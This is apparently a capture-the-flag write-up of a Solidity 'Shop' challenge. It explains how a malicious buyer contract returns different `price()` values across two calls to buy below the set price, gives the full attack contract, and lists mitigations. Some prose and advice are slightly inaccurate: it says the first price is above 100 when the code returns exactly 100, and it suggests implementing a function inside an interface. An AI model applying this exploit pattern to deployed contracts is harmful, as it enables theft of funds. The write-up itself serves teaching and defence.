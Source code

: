# Shop Challenge

**Intent:** The Shop contract is designed to sell an item at a specified price (100) using the Buyer interface to determine the buyer's price.

**Vulnerability:** The contract relies on the unimplemented `price()` function in the Buyer interface, allowing an attacker to create a malicious implementation. The contract also calls `price()` twice, enabling different return values on the first and second calls.

**Exploit:** An attacker creates a malicious contract with a custom `price()` function that returns a value >100 on the first call and <100 on the second call, bypassing the price check and purchasing the item at a lower price.

```solidity
contract ShopAttack {
    Shop private immutable target;

    uint private constant ATTACK_PRICE = 99;
    uint private constant ORIGINAL_PRICE = 100;

    constructor(address _target) {
        target = Shop(_target);
    }

    function attack() external {
        target.buy();
        require(target.price() == ATTACK_PRICE, "price != 99");
    }

    function price() external view returns (uint) {
        if (target.isSold()) {
            return ORIGINAL_PRICE - 1;
        }

        return ORIGINAL_PRICE;
    }
}

**Takeaways:**

1. Implement all functions in interfaces to prevent malicious implementations.
2. Avoid multiple calls to the same external function for crucial operations.

**Solutions:**

1. Implement the `price()` function within the Buyer interface.
2. Store the result of the first external function call in a variable and use that for further operations.
```
